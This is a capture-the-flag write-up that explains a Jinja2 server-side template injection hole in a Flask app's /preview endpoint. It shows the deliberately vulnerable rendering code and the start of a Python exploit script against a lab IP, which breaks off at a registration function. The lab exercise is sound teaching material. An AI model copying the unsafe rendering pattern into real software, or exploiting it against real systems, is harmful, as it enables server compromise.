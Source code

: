 # SecureDash SSTI Challenge Writeup

## Challenge Overview
SecureDash is a web application with a dashboard interface that contains a Server-Side Template Injection (SSTI) vulnerability in its template preview functionality. The goal is to exploit this vulnerability to retrieve the flag stored in the application's `FLAG` variable.

## Vulnerability Analysis

The vulnerability exists in the `/preview` endpoint of `app.py`:

```python
@app.route('/preview', methods=['POST'])
@login_required
def preview():
    username = session['username']
    data = request.get_json()
    
    template_str = data.get('template', '')
    if not template_str:
        return jsonify({"error": "Template required"}), 400
    
    try:
        # Obfuscated SSTI vulnerability
        encoded = base64.b64encode(template_str.encode()).decode()
        decoded = base64.b64decode(encoded).decode()
        
        env.filters['obfuscate'] = lambda x: ''.join(chr(ord(c) ^ 0x1) for c in str(x))
        template = env.from_string(decoded)
        context = {
            'username': username,
            'role': users[username]['role'],
            'secret_key': 'REDACTED'
        }
        result = template.render(**context)
        
        return jsonify({"preview": result})
    except Exception as e:
        return jsonify({"error": f"Rendering failed: {str(e)}"}), 400
```

The endpoint takes user input (template), base64 encodes and decodes it (which doesn't provide any security), and then renders it using Jinja2 template engine. This is a classic SSTI vulnerability.

## Exploitation Steps

As always everything can be automated using python
```python
import requests
import json
import re

# Configuration
TARGET = "http://192.168.11.112:60000"
USERNAME = "hacker"
PASSWORD = "pass123"
COOKIES_FILE = "cookies.txt"

session = requests.Session()

def register():
    url = f"{TARGET}/register"
```